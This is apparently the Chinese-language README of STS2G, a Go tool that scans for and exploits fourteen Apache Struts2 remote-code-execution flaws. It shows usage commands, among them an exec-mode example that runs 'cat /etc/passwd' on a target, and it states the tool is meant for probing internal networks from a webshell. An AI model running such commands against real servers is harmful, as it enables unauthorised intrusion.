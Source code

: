 # STS2G
Struts2漏洞测试-Golang版，部分POC参考了众多优秀项目如[Struts2-Scan](https://github.com/HatBoy/Struts2-Scan)，漏洞测试环境采用[vulhub](https://github.com/vulhub/vulhub/tree/master/struts2).  
目前两种模式`scan`和`exec`支持：  
*struts2-001*  
*struts2-005*  
*struts2-007*  
*struts2-008*  
*struts2-009*  
*struts2-012*  
*struts2-013*  
*struts2-015*  
*struts2-016*  
*struts2-045*  
*struts2-046*  
*struts2-048*  
*struts2-053*  
*struts2-057*  
#### 开发目的  
1、适用于命令行下操作，比如webshell下测试内网struts2漏洞.  
2、可编译Windows/Linux平台可执行文件.  
3、单文件运行.  
#### 使用方法  
``` 
D:\Struts2-Test>ST2SG.exe -h
NAME:
   ST2SG - Struts2 Scanner Written in Golang

USAGE:
   ST2SG --url http://xxxxxxx.com/test.action --vn 15 --mode scan

AUTHOR:
   x51

COMMANDS:
   help, h  Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --mode value  Specify work mode
   --vn value    Vulnerability number (default: 0)
   --url value   Set target url
   --cmd value   Exec command(Only works on mode exec.)
   --data value  Specific vulnerability packets
   --help, -h    show help (default: false)
```
![avatar](./Example.png)  
##### 默认扫描模式(不建议使用):  
```ST2SG --url http://xxx.com/index.action --mode scan```  
##### 指定漏洞扫描模式：  
```ST2SG --url http://xxx.com/index.action --vn 15 --mode scan```  
##### 命令执行模式：  
```ST2SG --url http://xxx.com/index.action --vn 15 --mode exec --cmd "cat /etc/passwd"```  
##### 自定义参数：  
*基于以上方法，分两种情况，自定义GET参数名，和自定义POST数据包内容，POST方式需要在数据包中指定一下要测试的参数并用fuckit标记出来.*  
###### POST  
```ST2SG --mode scan --url http://xxx.com/index.action --vn 007 --data "name=fuckit&pass=qwer"```  
以Struts2-001为例，登录请求包如下：  
```
POST /login.action HTTP/1.1
Host: 192.168.123.128:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Origin: http://192.168.123.128:8080
Connection: close
Referer: http://192.168.123.128:8080/
Cookie: JSESSIONID=51B574E47166823D7622CA583D71954E
Upgrade-Insecure-Requests: 1

username=aaa&password=bbb
```  
![avatar](./s001.png)  
###### GET  
```ST2SG --mode scan --url http://xxx.com/index.action --vn 009 --data "name"```  
以Struts2-009为例，GET请求如下：  
```
http://192.168.123.128:8080/ajax/example5.action?age=1&name=aaa
```  
![avatar](./s009.png)  
#### 补充  
1、强烈建议使用vn参数；  
2、自定义POC只需在utils中修改为自己的即可；  
3、部分漏洞支持获取webpath，功能函数已经在各自漏洞模块中实现（func GetWebPath），可自行调用；  
